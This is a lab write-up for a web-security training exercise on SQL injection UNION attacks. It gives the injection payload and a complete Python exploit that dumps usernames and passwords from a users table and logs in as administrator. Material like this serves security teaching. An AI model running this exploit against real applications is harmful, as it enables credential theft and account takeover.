 ```yaml
---
title: '10 SQLi Lab'
description: 'SQL injection for retrieving multiple values in a single column'
---
```



## SQL injection UNION attack, retrieving multiple values in a single column

<div style="text-align: justify;">
  This lab demonstrates how to retrieve multiple values in a single column using SQL injection and a `UNION` attack. The vulnerable product category filter returns query results in the application's response. The database contains a `users` table with `username` and `password` columns. By concatenating the two columns into a single value using `||'~~'||`, all credentials can be retrieved in one column. This allows extraction of the administrator credentials needed to solve the lab.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `category` parameter in `/filter` is vulnerable to SQL injection.
- Verify the number of columns and which columns return text (e.g. `'+UNION+SELECT+NULL,'abc'--`).
- Use a payload like `'+UNION+SELECT+NULL,username||'~~'||password+FROM+users--` to retrieve all usernames and passwords in a single column.
- Parse the response to extract credentials.
- Log in using the administrator account to complete the lab.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp Suite proxy (optional, comment out if not needed)
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    """Check if Burp Suite proxy is running."""
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def exploit_sqli(url, payload):
    """Exploit SQLi and extract credentials table."""
    full_url = url.rstrip("/") + payload
    res = requests.get(full_url, verify=False, proxies=proxies, timeout=10)
    res.raise_for_status()

    soup = BeautifulSoup(res.text, "html.parser")
    creds = {}

    rows = soup.find_all("tr")
    for row in rows:
        cols = row.find_all(["th", "td"])
        if len(cols) == 1:  # single column with "username~~password"
            combo = cols[0].get_text(strip=True)
            if "~~" in combo:
                username, password = combo.split("~~", 1)
                creds[username] = password

    return creds

def login(url, username, password):
    """Log in using CSRF token and credentials, then check if lab solved."""
    login_url = url.rstrip("/") + "/login"
    session = requests.Session()

    # Step 1: Get CSRF token
    res = session.get(login_url, verify=False, proxies=proxies)
    res.raise_for_status()

    soup = BeautifulSoup(res.text, "html.parser")
    csrf_token = soup.find("input", {"name": "csrf"})["value"]

    # Step 2: Submit login form
    data = {
        "csrf": csrf_token,
        "username": username,
        "password": password
    }

    res = session.post(login_url, data=data, verify=False, proxies=proxies)
    res.raise_for_status()

    if "Log out" in res.text:
        print(f"[+] Logged in as {username}. Checking if lab is solved...")

        # Step 3: One last GET on base URL
        base_res = session.get(url, verify=False, proxies=proxies)
        base_res.raise_for_status()

        if "Congratulations" in base_res.text:
            print("[+] Lab solved! 🎉")
            return True
        else:
            print("[-] Logged in but lab not solved yet.")
            return False
    else:
        print("[-] Login failed.")
        return False

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()
    check_burp()

    payload = "/filter?category='+UNION+SELECT+NULL,username||'~~'||password+FROM+users--"

    print("[*] Exploiting SQL injection...")
    creds = exploit_sqli(url, payload)

    if not creds:
        print("[-] No credentials found!")
        sys.exit(1)

    print("[*] Extracted credentials:")
    for user, pw in creds.items():
        print(f"   {user} : {pw}")

    if "administrator" in creds:
        print("[*] Trying to log in as administrator...")
        login(url, "administrator", creds["administrator"])
    else:
        print("[-] Administrator account not found.")

if __name__ == "__main__":
    main()
```